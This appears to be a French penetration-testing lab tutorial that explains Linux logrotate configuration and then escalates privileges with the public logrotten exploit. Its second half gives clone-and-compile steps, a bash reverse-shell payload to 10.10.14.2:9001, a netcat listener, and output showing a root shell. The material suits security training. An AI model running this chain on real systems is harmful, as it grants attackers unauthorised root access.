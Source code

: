 Logrotate
=========

* * * * *

Chaque système Linux produit de grandes quantités de fichiers journaux. Pour éviter que le disque dur ne déborde, un outil appelé `logrotate`se charge d'archiver ou de se débarrasser des anciens journaux. Si aucune attention n'est accordée aux fichiers journaux, ils deviennent de plus en plus volumineux et finissent par occuper tout l'espace disque disponible. De plus, la recherche dans de nombreux fichiers journaux volumineux prend du temps. Pour éviter cela et économiser de l'espace disque, `logrotate `a été développé. Les journaux de connexion `/var/log`donnent aux administrateurs les informations dont ils ont besoin pour déterminer la cause des dysfonctionnements. Les détails système inaperçus, tels que le bon fonctionnement de tous les services, sont presque plus importants.

`Logrotate`dispose de nombreuses fonctionnalités pour gérer ces fichiers journaux. Ceux-ci incluent la spécification de:

-   le `size`fichier journal,
-   son `age`,
-   et le `action`à prendre lorsque l'un de ces facteurs est atteint.

```
dsgsec@htb[/htb]$ man logrotate
dsgsec@htb[/htb]$ # or
dsgsec@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message

```

La fonction de la rotation elle-même consiste à renommer les fichiers journaux. Par exemple, de nouveaux fichiers journaux peuvent être créés pour chaque nouveau jour, et les plus anciens seront renommés automatiquement. Un autre exemple serait de vider le fichier journal le plus ancien et ainsi de réduire la consommation de mémoire.

Cet outil est généralement démarré périodiquement via `cron`et contrôlé via le fichier de configuration `/etc/logrotate.conf`. Dans ce fichier, il contient des paramètres globaux qui déterminent la fonction de `logrotate`.

```
dsgsec@htb[/htb]$ cat /etc/logrotate.conf

# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.

```

Pour forcer une nouvelle rotation le même jour, la date après les fichiers journaux individuels dans le fichier d'état `/var/lib/logrotate/status`ou utilisez l' option `-f`/`--force` :

```
dsgsec@htb[/htb]$ sudo cat /var/lib/logrotate/status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3

```

Nous pouvons trouver les fichiers de configuration correspondants dans `/etc/logrotate.d/`le répertoire.

```
dsgsec@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp

```

```
dsgsec@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}

```

Pour exploiter `logrotate`, nous avons besoin de certaines conditions que nous devons remplir.

1.  nous avons besoin `write`d'autorisations sur les fichiers journaux
2.  logrotate doit être exécuté en tant qu'utilisateur privilégié ou`root`
3.  versions vulnérables :
    -   3.8.6
    -   3.11.0
    -   3.15.0
    -   3.18.0

Il existe un exploit préfabriqué que nous pouvons utiliser pour cela si les conditions sont remplies. Cet exploit est nommé [logrotten](https://github.com/whotwagner/logrotten) . Nous pouvons le télécharger et le compiler sur un noyau similaire du système cible, puis le transférer sur le système cible. Alternativement, si nous pouvons compiler le code sur le système cible, nous pouvons le faire directement sur le système cible.

```
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten

```

Ensuite, nous avons besoin d'une charge utile à exécuter. Ici, de nombreuses options différentes s'offrent à nous que nous pouvons utiliser. Dans cet exemple, nous allons exécuter un shell inverse simple basé sur bash avec le `IP`et `port`de notre VM que nous utilisons pour attaquer le système cible.

```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload

```

Cependant, avant d'exécuter l'exploit, nous devons déterminer quelle option `logrotate`utilise dans `logrotate.conf`.

```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create

```

Dans notre cas, c'est l'option : `create`. Il faut donc utiliser l'exploit adapté à cette fonction.

Après cela, nous devons démarrer un écouteur sur notre VM / Pwnbox, qui attend la connexion du système cible.

```
dsgsec@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001

```

Dans une dernière étape, nous exécutons l'exploit avec la charge utile préparée et attendons un shell inversé en tant qu'utilisateur privilégié ou root.

```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log

```

```
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```
